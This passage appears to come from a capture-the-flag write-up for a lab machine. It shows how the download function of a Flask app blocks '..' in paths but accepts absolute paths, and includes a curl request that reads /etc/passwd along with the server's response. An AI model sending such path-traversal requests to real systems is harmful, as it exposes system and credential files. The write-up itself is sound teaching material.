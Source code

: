 ### Exploitation

The function `download()` do not properly sanitize its input parameter. The code :

```python
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
```

The parameter `filename` is given as a parameter to `send_file()`. If this parameter is not properly sanitized, then this could allow an attacker to download files from the system.

```python
import posixpath, os
image='test.png'
filename = posixpath.normpath(image)
if '..' in filename or filename.startswith('../'):
    print('Hacking detected!', 'danger')

if not os.path.isabs(filename):
    # filename = os.path.join(app.config['LIST_FOLDER'], filename)
    filename = os.path.join('uploads/list', filename)
```

With `image='test.png'`, then `filename='uploads/list/test.png'`.
With `image='../../../test.png'`, then `Hacking detected! danger`.
With `image='/../../../test.png'`, then `filename='/test.png'`.
With `image='/etc/passwd'`, then `filename='/etc/passwd'`.

The test `if '..' in filename or filename.startswith('../'):` will forbid `..` in the path, but if we provide an absolute path, this work around the protections.

This can be tested with :

```shell
curl -v -X POST http://beta.only4you.htb/download --data 'image=/etc/passwd'
```

Result:

```text
*   Trying 10.10.11.210:80...
* Connected to beta.only4you.htb (10.10.11.210) port 80 (#0)
> POST /download HTTP/1.1
> Host: beta.only4you.htb
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 17
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 17 out of 17 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 23 Aug 2023 21:28:47 GMT
< Content-Type: application/octet-stream
```